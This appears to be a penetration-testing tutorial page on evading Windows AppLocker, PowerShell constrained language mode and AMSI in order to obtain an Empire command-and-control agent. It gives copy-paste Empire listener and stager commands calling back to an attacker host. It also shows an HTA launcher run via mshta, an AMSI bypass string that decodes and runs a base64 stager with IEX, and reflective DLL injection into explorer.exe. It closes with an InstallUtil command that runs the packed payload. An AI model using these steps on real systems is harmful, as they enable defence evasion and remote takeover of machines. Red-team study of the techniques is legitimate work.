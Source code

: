 # Bypassing Applocker and Powershell contstrained language mode

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```text
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```text
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.

![](../.gitbook/assets/import.png)

**Useful links** [https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/) [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) [http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html](http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html)

## Using Reflective Injection and Certutil

This technique involves packing everything together several times to bypass all the security mechanisms. I based this on the [awesome article ](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)from Improsec called "Babushka dolls" and elements from it's Github project.

**Edit: Sadly after Windows 10 1803 and onwards this trick doesn't work for bypassing AMSI any longer. AMSI now uses a scanbuffer instead of scanstring which was previously used.**

### Generating listener and stager in Empire

Set up a listener and generate a stager. I've put all the commands below for easy copypaste.

```text
./Empire
listeners
uselistener
set Host 10.0.0.15
set Port 80
execute
back
usestager multi/launcher
set Listener http
generate
```

![](../.gitbook/assets/image%20%2815%29.png)

![](../.gitbook/assets/image%20%2814%29.png)

### ReflectivePick with Visual Studio

We are now going to write the stager we generated into the ReflectivePick project.

Open the [PowerPick project ](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick/ReflectivePick)in VS. It may be necessary to set the target to x64. Project -&gt; ReflectivePick properties -&gt; Configuration Manager -&gt; Platform

![](../.gitbook/assets/image%20%2817%29.png)

Add the base64 from the stager where appropriate.

![](../.gitbook/assets/image%20%2819%29.png)

`wchar_t* argument = L"[Ref].Assembly.GetType('System.Management.Automation.sAmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);$encoded = \"BASE64STRING\";$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded));$decoded | Out-File -FilePath C:\Windows\Tasks\out.txt;IEX $decoded"; //Output debug`

This includes an output write for demonstration purposes. You can remove it if you desire.

Compile the dll to `ReflectivePick_x64.dll`

![](../.gitbook/assets/image%20%2826%29.png)

### Execution

We can now try to run the dll with `rundll32.exe .\ReflectivePick_x64.dll,Void` but as you will soon discover, AMSI picks up the Empire stager during runtime.

![](../.gitbook/assets/image%20%2810%29.png)

Disable AMSI however, and you get an agent back.

![](../.gitbook/assets/image%20%2836%29.png)

You can also view the base64-decoded stager payload in `c:\windows\tasks\out.txt`

![](../.gitbook/assets/image%20%285%29.png)

We can't rely on manually disabling AMSI, so we are going to run it through a few more hoops.

### Load the DLL into another process

To avoid creating a new process and loading the non-whitelisted DLL we are going to reflectively inject it into a process using [Invoke-ReflectiveInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1).

 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file. Don't worry if the commands take a few seconds to run. I have also noticed that Powershell adds a newline at the bottom of the file when Base64-encoding like this so manually remove that if it is present.

```text
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\dll.txt"
```

![](../.gitbook/assets/image%20%288%29.png)

Now you want to download [Invoke-ReflectivePEInjection](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) to the working directory and open it in a text editor. At the bottom of the file, add the following lines, where we copypaste the contents of `dll.txt` to the `$dllData` object. This will ensure the dll is reflectively injected into the `explorer.exe` process during runtime.

```text
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

### Compile to an EXE using VS

In powershell, base64 encode the entire script. Remove the newline at the bottom of the output file if present.

```text
$Content = Get-Content .\Invoke-ReflectivePEInjection.ps1 -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\pe.txt"
```

![](../.gitbook/assets/image%20%2833%29.png)

Open the [Bypass project](https://github.com/MortenSchenk/Babuska-Dolls/tree/master/Bypass) in VS and copypaste the base64 into the encoded variable. Compile to `Bypass.exe` with VS.

### Final execution

Use `installutil.exe` or similar [LOLbBns ](https://github.com/LOLBAS-Project/LOLBAS/blob/master/LOLBins.md)to execute `Bypass.exe`. If Applocker is present, execute it from a whitelisted directory such as `C:\Windows\Tasks`

```text
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe 
```

![](../.gitbook/assets/image%20%287%29.png)

![](../.gitbook/assets/image%20%2813%29.png)



